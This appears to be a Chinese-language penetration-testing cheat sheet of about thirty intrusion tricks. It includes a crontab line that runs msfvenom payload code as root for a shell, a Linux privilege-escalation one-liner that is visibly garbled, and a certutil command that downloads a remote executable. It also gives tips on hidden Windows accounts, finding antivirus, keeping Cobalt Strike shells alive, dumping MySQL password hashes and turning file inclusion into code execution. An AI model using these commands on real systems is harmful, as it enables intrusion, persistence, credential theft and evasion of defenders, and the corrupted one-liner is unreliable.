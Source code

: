 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

21. windows下，文件命名不能存在空格，以此构造文件名`xxx.php. (空格)`上传
22. linux一句话提权

```bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever exploit.conf" staprun -u whatever> exploit.conf; MODPROBE_OPTIONS="-C
```

23. 善用msf的auxiliary/server/socks4a模块建立socks代理，配合proxychains使用
24. windows下，使用Certutil.exe（or powershell）下载远程文件

```bash
certutil.exe -urlcache -split -f http://ip/test.exe /var/www/html/test.exe
```

25. MYSQL获取密码

```bash
#方式一
查看F:\MySQL\data\mysql下的user.MYD文件，010打开，寻找hash值，带星号的为40位哈希值，解密

#方式二
user.MYD/user.frm/user.MYI三个文件替换本地文件
然后
cd bin
mysqld --skip-grant-tables
-----------------------
另起一个cmd
mysql -u root
select user,password from mysql.user;
```

26. `/var/log/lastlog`和`/var/log/wtmp`这两个文件有记录登录ip
27. 文件包含到RCE

```
https://www.toutiao.com/i6718905823352848903/#&gid=1&pid=1
1. /proc/self/environ文件
2. Apache和SSH等日志文件
3. /var/mail日志记录
```

28. 不安全的jquery版本，过滤用户输入数据所使用的正则表达式存在缺陷，可能导致LOCATION.HASH跨站漏洞

```version
1.x系列低于1.12版本
2.x系列低于2.2版本
```

29. 远程连接失败解决方案

- 查询系统是否允许3389远程连接（1表示关闭,0表示开启）

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

- 查看远程连接的端口

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

30. MSF模块-可执行的本地提权信息

```msf
use post/multi/recon/local_exploit_suggester
```

